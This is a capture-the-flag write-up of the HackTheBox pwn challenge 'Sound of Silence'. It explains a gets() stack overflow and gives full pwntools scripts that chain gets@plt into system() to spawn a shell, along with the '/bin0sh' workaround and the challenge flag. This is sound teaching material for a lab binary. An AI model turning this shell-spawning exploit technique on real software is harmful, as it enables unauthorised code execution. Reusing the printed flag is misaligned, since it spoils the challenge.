 # Sound of Silence

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c00cb1d6-aa6b-4bff-b60d-65115285d01f)


> Write-up author: jon-brandy

## Lessons Learned:
1. Stack-Based Exploitation.
2. Manipulate return address to gets(), then use system() as it's argument.

## DESCRIPTION:

<p align="justify">Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e40093d-ac65-4955-9bb6-93899c3d2a2f)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e53e26ae-0d6c-457f-a5d7-e643dec8c82e)


2. Upon reviewing the decompiled code on Ghidra, it's very clear that the vuln reside at the **gets()** usage.
3. There are no bound checking, even the canary and PIE is dead. Also there is a **system()** call.
4. Hence, it's easier for us to obtain RCE.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/921676d0-52ff-4216-ac33-93d6275740da)


5. BUT the problem here, remembering it does call system(), hence we can't identify RIP offset like usual with it.
6. Although we can do it manually, but still I preferred using GDB.
7. The method is to do **set follow-fork-mode parent** at GDB.
8. So now the GDB is following the parent process, not the child process.
9. Simply send +16 bytes or even more than the available buffers to hold by the input variable.
10. We shall gained segfault.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4860fb58-d5a6-4801-b9fc-b20a8200d512)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cbbd5a52-3c99-44fb-9230-93511d71b80c)


11. Nice! Now, what are our objectives? There is no **write()**, **read()**, **printf()**, or **puts()** call.
12. BUT there is **system()**.
13. Our objective is to return to `gets@plt`, then pass `system()` as it's arg.
14. Finally, simply passing the `/bin/sh\x00` strings.
15. Here's the crafted script.

> SCRIPT

```py
from pwn import *

exe = './sound_of_silence'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

p = flat([
    cyclic(40),
    elf.sym['gets'],
    elf.sym['system']
])

sh.sendline(p)
sh.sendline(b'/bin/sh\x00')

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b3918398-f44c-43fb-8cc3-cb832f15354e)


16. Interesting, we failed to get shell. Based from the received bytes, it said `/bin.sh` not found.
17. Noticed our `/` is bit-flipped (?)
18. Upon debugging our input by set breakpoints at **main()**, we found an interesting pointer stored at the RDI upon step into the **gets()** call.

> AFTER THE GETS CALL, PASS FEW BYTES

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b588ca19-e6ba-4ccf-a788-b20f16c38bbc)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/02adb208-ddfe-4e7b-8143-a237f6a58700)


19. Interesting! RDI is filled with 0x0 value. This indicates a **standard lockp**.
20. This could be the reason why our shell strings is bitflipped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/094570a3-cbc8-4725-b164-80b9239a9ea2)


21. Running **vmmap** to check the address. We can see it's writeable! That is also the reason why we can write `/bin/sh`.
22. So our objective is left to identify which character when it's bitflipped, resulting to "/".
23. Long story short, upon stuffing all the chars. Found that passing `/bin0sh` resulting to `/bin/sh`.

> FULL SCRIPT

```py
from pwn import *

exe = './sound_of_silence'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

p = flat([
    cyclic(40),
    elf.sym['gets'],
    elf.sym['system']
])

sh.sendline(p)
sh.sendline(b'/bin0sh\x00')

sh.interactive()
```

> REMOTE TEST

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/428edca9-fa1f-4699-aef8-b1f40a05ab91)


24. Nice! We've pwned it!

## FLAG

```
HTB{5y5t3m_15_m0r3_th4n_en0ugh!~!}
```
